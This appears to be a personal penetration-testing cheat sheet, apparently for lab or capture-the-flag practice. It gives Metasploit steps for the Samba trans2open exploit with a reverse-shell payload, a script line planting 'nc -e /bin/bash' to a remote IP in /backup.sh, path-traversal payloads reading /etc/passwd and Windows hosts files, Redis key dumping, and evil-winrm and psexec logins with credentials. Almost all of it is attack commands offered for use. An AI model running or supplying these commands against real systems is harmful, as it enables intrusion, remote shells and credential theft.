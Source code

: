 # General exploitation

## Links
exploit-db.com
rapid7.com/db/modules/exploit
https://github.com/swisskyrepo/PayloadsAllTheThings
https://blog.harmj0y.net/
https://www.veil-framework.com/
https://github.com/powershellmafia/powersploit


## searching with searchsploit

```
seearchsploit <app>
```
example
```
searchsploit samba

searchsploit mod ssl 2
```

# Exploit with Metasploit
Using samba as an example


search for a codename of exploit or however it shows up in searchsploit
```
search trans2open
```
```
use exploit/linux/samba/trans2open
or 
use 1
```
```
set RHOST 192.168.1.4
```
```
msf5 > show targets
```
```
msf5 > exploit
```
IF IT KEEPS DYING TRY A DIFFERENT TYPE OF PAYLOAD
stageless vs staged
```
msf5 > options
```
```
msf5 > set payload linux/x86/shell_reverse_tcp
```
```
msf5 > exploit
```

# Manual

download exploit if you can find it on github or google

download, compile and run


shit to try:

```
echo '#!/bin/bash
nc -e /bin/bash 10.0.2.4 7337
"
' > /backup.sh
```
# Redis
geeting around Redis to print out keys
```
redis-cli - <ip or hostname> -p <port> -a <password if you know it>
```
printing all keys
```
select *
keys *
```
# LFI
always try to see if you can do any sort of lfi 
index.php?page="../../../../../../../../etc/hosts

or use curl
```
curl 'http://{target_IP}/?file=/etc/passwd'
```

# LFI on a windows machine
```
index.php?page="../../../../../../../../windows/system32/drivers/etc/hosts"
```

# WINRM
connect using winrm
```
evil-winrm -i 10.129.56.226 -u Administrator -p password
```

# connecting to windows with credentials using psexec
```
python3 psexec.py administrator@{TARGET_IP}
```
